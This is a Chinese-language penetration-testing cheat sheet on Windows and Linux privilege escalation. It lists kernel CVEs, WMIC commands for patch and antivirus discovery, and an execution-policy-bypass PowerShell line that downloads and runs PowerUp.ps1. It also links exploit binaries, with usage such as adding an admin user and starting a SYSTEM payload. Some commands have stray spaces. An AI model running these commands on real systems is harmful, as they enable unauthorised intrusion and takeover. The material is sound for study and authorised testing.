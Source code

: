 ### 一、权限类型

- 用户权限（Users）
- 管理员权限（Administrators）
- 系统权限（SYSTEM）
- 访客权限（Guest）

<br/>

#### 0x01、提权方向

- Windows提权方向

```text
user -> administrator

administrator -> system

services -> system
```

- Linux提权方向

```text
user -> root
```

<br/>

#### 0x02、提权分类

##### a、本地提权

`在有低权限帐户的情况下利用程序漏洞或系统漏洞进行权限提升`

##### b、远程提权

`通过远程漏洞利用工具获取权限`

##### c、操作系统提权

`Windows：MS06-067、MS10-084、MS11-014、MS11-05、MS12-020、MS16-032 等`

`Linux：CVE-2017-7308、CVE-2017-6074、CVE-2017-5123、CVE-2016-9793、CVE-2016-5195 等`

##### d、应用程序提权

`SQL Server、MySQL、Oracle`

<br/>

#### 二、系统提权

##### 0x01、提权思路

- 前期信息收集
- Meterpreter提权
- Windows系统内核漏洞
- Windows服务提权漏洞

##### 0x02、信息收集操作步骤

> 获得meterpreter会话并收集信息

###### a、手动补丁信息

> WMIC ：Windows管理工具命令行，提供了从命令行接口和批命令脚本执行系统管理的支持，对于信息 收集和渗透测试是非常实用的。

```sh
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

> 过滤指定补丁

```sh
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr ""
```

###### b、获取杀软信息

> 获取杀软名称(老系统)

```sh
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get display Name /Format:List
```

> 获取杀软名和安装路径

```sh
WMIC /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productStat e, pathToSignedProductExe
```

###### c、自动信息收集

> https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https:// raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invo ke-AllChecks"
```

> 在网络不通的情况可以下载到本地手动执行

```sh
powershell -ep bypass -c "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

<br/>

##### 0x03、内核漏洞提权

- 列出安全更新补丁

```sh
powershell -c "Get-Hotfix -description 'Security update'"
```

- 查询补丁对应提权漏洞

```text
https://i.hacking8.com/tiquan
```

###### a、CVE-2018-8120

> https://github.com/alpha1ab/CVE-2018-8120

> CVE-2018-8120 exploit by @Topsec_Alpha_lab(https://github.com/alpha1ab) 
> 
> Usage: exp.exe command 
> 
> Example: exp.exe "net user admin admin /add"

###### b、CVE-2019-0803

> https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe

```sh
#检测漏洞是否存在
cve-2019-0803.exe cmd "whoami"
```

```sh
#反弹SYSTEM权限到MSF会话
cve-2019-0803.exe cmd "start payload.exe"
```

###### c、CVE-2020-0787

> https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION/releases

![截图](pic/ec8e9e5b27ce328aefcd83cc3d209a4e.png)

##### 0x04、工具脚本

> 各平台合集(近期更新)：https://github.com/Ascotbe/Kernelhub
> 
> juicy-potato：https://github.com/ohpe/juicy-potato